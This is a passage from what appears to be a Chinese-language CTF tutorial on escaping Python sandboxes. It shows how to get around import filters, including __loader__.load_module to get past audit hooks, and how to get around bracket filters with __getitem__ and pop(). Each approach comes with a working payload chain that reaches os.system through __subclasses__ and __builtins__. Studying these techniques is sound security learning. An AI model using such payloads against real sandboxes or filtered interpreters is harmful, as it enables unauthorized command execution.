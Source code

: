 ```
```

### 过滤 import[](#过滤-import)

python 中除了可以使用 import 来导入，还可以使用 `__import__` 和 `importlib.import_module` 来导入模块

#### `__import__`[](#__import__)

#### importlib.import_module[](#importlibimport_module)

不过 importlib 也需要导入, 所以有些鸡肋.

```
import importlib
importlib.import_module('os').system('ls')
```

注意：importlib 需要进行导入之后才能够使用

#### `__loader__.load_module`[](#__loader__load_module)

如果使用 audithook 的方式进行过滤, 上面的两种方法就无法使用了, 但是 `__loader__.load_module` 底层实现与 import 不同, 因此某些情况下可以绕过.

```
>>> __loader__.load_module('os')
<module 'os' (built-in)>
```

### 过滤了 [][](#过滤了-)

如果中括号被过滤了，则可以使用如下的两种方式来绕过：

1.  调用`__getitem__()`函数直接替换；
2.  调用 pop() 函数（用于移除列表中的一个元素，默认最后一个元素，并且返回该元素的值）替换；

```
''.__class__.__mro__[-1].__subclasses__()[200].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

# __getitem__()替换中括号[]
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('ls')

# pop()替换中括号[]，结合__getitem__()利用
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(200).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('ls')

getattr(''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__,'__builtins__').__getitem__('__import__')('os').system('ls')
```

### 过滤了 ‘’[](#过滤了--1)

#### str 函数[](#str-函数)

如果过滤了引号，我们 payload 中构造的字符串会受到影响。其中一种方法是使用 str() 函数获取字符串，然后索引到预期的字符。将所有的字符连接起来就可以得到最终的字符串。
